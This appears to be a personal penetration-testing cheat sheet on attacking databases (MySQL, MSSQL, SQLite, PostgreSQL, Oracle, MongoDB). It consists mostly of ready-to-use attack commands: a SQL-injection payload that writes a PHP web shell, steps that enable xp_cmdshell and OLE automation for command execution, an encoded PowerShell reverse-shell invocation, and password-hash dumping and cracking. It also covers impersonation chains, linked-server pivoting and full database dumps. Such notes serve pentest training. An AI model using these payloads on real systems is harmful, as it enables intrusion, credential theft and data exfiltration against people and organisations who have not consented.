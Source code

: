 ```yaml
---
layout: blank
pagetitle: Database Attacks
---
```


## General Database viewer tools
- Use `dbeaver` on kali, has a nice GUI and everything

## MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, authentication_string FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;` (or `show databases;`)
    	- Use a database with `use {db_name};` and enum tables with `show tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
- Dumping MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`
- If we're able to log in as the `mysql` user, we can sometimes read the `/var/lib/mysql/mysql/user.MYD` file containing the root password hash
  - The password will be split into two parts, one following `root*` and the other at the bottom of the file
    - Putting these together will yield something like `root:*{combined_password}` which can be cracked with `john`
  - Can do sometimes do something similar with `SELECT load_file('{file}');` as the root mysql user


## MSSQL
- Database management built into Windows
	- `master` database for system-level details, `msdb` database for scheduling alerts/jobs, `model` database acts as blueprint for new mssqlservers, `resource` database for hosting system objects in read-only fashion, `tempdb` database as temporary storage area
	- Users vs. logins
		- Both users and logins are required to perform database operations
		- Users dictate who can access the SQL server instance as a whole (but this doesn't provide any database access)
			- These can be local database users, like `sa`, local Windows users, or Domain users
			- Thus, a valid user without any database logins wouldn't be able to do anything, despite having credentials to access the server
		- Logins provide users access to specific databases within the server
- Controlled via `Invoke-Sqlcmd`
  - `Install-Module -Name SqlServer -Force`
  - `Invoke-Sqlcmd -ServerInstance localhost\{SQL_server_name} -Database {database_like_master} -Query {query}`
- Importing [PowerUPSQL](https://github.com/NetSPI/PowerUpSQL) can give some useful Powershell commands, like `Get-SQLInstanceLocal` to identify local mssql servers
  - Cheatsheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
  - `Get-SQLServerPasswordHash` gets SQL server login passwords
  - Inspecting linked servers: `Get-SQLServerLink` 
    	- With auth: `-Username {mssql_username} -Password {mssql_password}  -Instance {server_name} -Verbose`
- **Impacket's MSSqlClient** 
	- Kali has the very useful `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {database_username}:{password}@{host IP}`
		- `-windows-auth` allows us to authenticate with windows credentials; `-k` to use `.ccache` kerberos auth 
	- **Command Execution**
		- Can use `enable_xp_cmdshell` and `xp_cmdshell {command}` to execute commands on the underlying server
		- Can also use the blind `sp_start_job {command}` to execute commands, or the `sp_OACreate` method described below
		- Turn this execution into a reverse shell with the python reverse shell generator in Miscellaneous notes
			- `xp_cmdshell "powershell -exec bypass -enc {b64_payload}"`
	- **Password Hashes**
		- Get local database password hashes with `select name,password_hash from sys.sql_logins`
			- Ignore `##MS##` hashes, since they're usually disabled (can be checked in `sys.sql_logins`) and the passwords are random
		- Can be cracked with hashcat, but they need to be reorganized
			- Stored in `b'0200 + 4-byte salt + 64-byte SHA512 hash'` structure, and we need it in `0x{hex}` format, so just remove byte string indicators and add `0x` at the front
			- Then crack with `hashcat -m 1731`
	- **Impersonation**
		- We can use `enum_impersonate` to see who our current user can impersonate (`grantor` category)
			- We can enumerate both users and logins with `exec_as_user {user}` or `exec_as_login {login}` on their own, which will drop us into a shell as that user/in that database
				- If the authorized user or login is a domain user, we can pass the domain with `exec_as_{user/login} {domain}\{user}`
			- From this point, we should run `enum_impersonate` again to see if our new user can impersonate anyone
		- Our target would be to impersonate either the `sa` user, an equivalently-privileged user, or a `dbo` login of the `system` database
			- The `dbo` login stands for Database Owner and gives full control over that database
	- **Linked servers**
		- After enumerating all accessible users, we can enumerate linked mssql servers with `enum_links`
		- This will show us what linked servers our current user can use
			- This will show which users have remote login permissions
				- If local login `NULL` has a remote login, we can just execute queries without auth
				- What will be more likely is a user that has impersonation rights with a remote login on another server
					- Thus, we can log in as that user to the mssql server, run `use_link {server_name}`, and then interact with the database normally
					- The `sa` user won't show any explicit links, since they're able to impersonate any user with a link
						- Thus, if there's a user with access to a linked database, we can simply impersonate them using `sa`
			- Running `enum_links` as `sa` (or equivalent) will show all user links, allowing different chains
		- Can run basic queries as authorized users with `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Enabling `xp_cmdshell`:
	- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
		- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; `
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
		- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
- Can also use `sp_OACreate` to execute system commands:
	- `sp_configure 'show advanced options', 1;`
	- `RECONFIGURE;` 
	- `sp_configure 'Ole Automation Procedures', 1;`
	- `RECONFIGURE;`
	- `DECLARE @shell INT; EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`

## SQLite
- Use `sqlitebrowser` for viewing sqlite databases visually 
  - If we want to quickly view a db, we can just `sqlite3 {db_file}`
- Enumeration:
  - We can view version with `.version`, databases with `.databases`, tables with `.tables`
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
	- Outdated versions may have RCE CVEs
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- We can read files with `.read {filename}`

## PostgreSQL
- Use `psql -U {username}` for to connect to PostgreSQL databases (with `-d {db_name}` for a database)
  - Then, we can list databases with `\l` and use `\c {db_name}` to connect to the database
  - `\d` to list the tables once connected
- Command execution with `COPY (SELECT '') TO PROGRAM 'bash -c "whoami"';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`
- Dumping PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`
- Read files using `COPY`
  - Start by creating a table with `CREATE TABLE demo(t text);`
  - Then `COPY demo FROM '{filename}';`, and then we can just read from the demo table

## Oracle
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
- Dumping Oracle: `sqlplus [username]/[password]@[host]/[SID] @extract.sql > oracle_data.txt`

## MongoDB
- Dumping MongoDB: `mongodump --host [host] --port [port] --username [user] --password [password] --out ./mongodb_dump`
